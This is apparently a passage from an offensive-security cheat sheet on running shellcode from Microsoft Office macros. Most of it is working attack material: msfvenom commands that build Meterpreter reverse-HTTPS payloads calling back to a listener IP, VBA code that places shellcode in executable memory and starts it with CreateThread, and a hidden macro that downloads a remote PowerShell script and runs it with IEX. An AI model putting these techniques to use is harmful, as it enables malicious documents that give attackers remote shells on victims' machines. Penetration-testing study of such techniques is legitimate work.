 ```
```

##### Office Shellcode Runners

Shellcode can be executed directly in the document macro via VBA by leveraging the Win32 API. 

###### Office MSF Shellcode Generation

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

###### Office VBA In Memory Shellcode Exec via CreateThread

CreateThread can be used to execute the shellcode. Import the required Win32 APIs, use VirtualAlloc to place the shellcode, and CreateThread to execute. *Note, when the Word instance is closed, so to is the shell.*

[Full Source](../src/visualbasic/InMemoryWin32CreateThread.vb)

```
buf = Array(232,[...],213)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To Ubound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)
```

##### Office VBA Shellcode Runner via PowerShell

Leverage VBA to execute PowerShell without saving to disk and as a child process. The child process allows the continuation of shellcode even after Word is closed.

Use VBA to download a Powershell script and execute it in memory. Using DllImportAttribute, Powershell can invoke unmanaged dynamic link libraries. 

###### Office MSF Powershell Shellcode Generation

```
sfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

###### Office Powershell Download & Exec

Host the Powershell and execute it via VBA macro

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.83/run.ps1') | IEX"
    Shell str, vbHide
End Sub
```

